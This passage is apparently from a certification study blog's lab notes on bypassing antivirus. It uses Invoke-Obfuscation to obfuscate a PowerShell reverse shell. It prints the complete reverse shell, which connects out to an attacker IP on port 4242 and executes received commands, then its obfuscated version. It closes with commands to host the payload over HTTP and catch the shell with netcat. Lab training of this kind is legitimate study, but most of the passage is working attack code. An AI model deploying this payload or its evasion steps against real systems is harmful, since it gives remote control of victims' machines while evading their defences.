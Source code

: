 * Run `pwsh`

```bash
pwsh
cd /opt/Invoke-Obfuscation/
Import-Module ./Invoke-Obfuscation.psd1
cd ..
Invoke-Obfuscation
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-0736bb825c85394c630138f91993999bdb899b24%252Fimage-20230424172552425.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=5b4c8dab&#x26;sv=1" alt=""><figcaption><p>Invoke-Obfuscation</p></figcaption></figure>

* Create the reverse PowerShell script in a new file
  * PowerShell Reverse Shell code will be

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano shell.ps1
```

```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

* Back in `Invoke-Obfuscation`

```bash
SET SCRIPTPATH /home/kali/certs/ejpt/AVBypass/shell.ps1
AST
ALL
1
```

<figure><img src="https://blog.syselement.com/~gitbook/image?url=https%3A%2F%2F1996978447-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FlhjuckuLbvBn36EoFL7P%252Fuploads%252Fgit-blob-7036c78eb5f1ca9a268c3a6b577885010d3ca38f%252Fimage-20230424173718594.png%3Falt%3Dmedia&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=cfe6ced&#x26;sv=1" alt=""><figcaption></figcaption></figure>

* Obfuscated code is:

```bash
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.31.128',4242));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```bash
cd /home/kali/certs/ejpt/AVBypass/    
nano obfuscated.ps1
```

```bash
# Attacker VM another terminal
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

nc -nvlp 4242
```
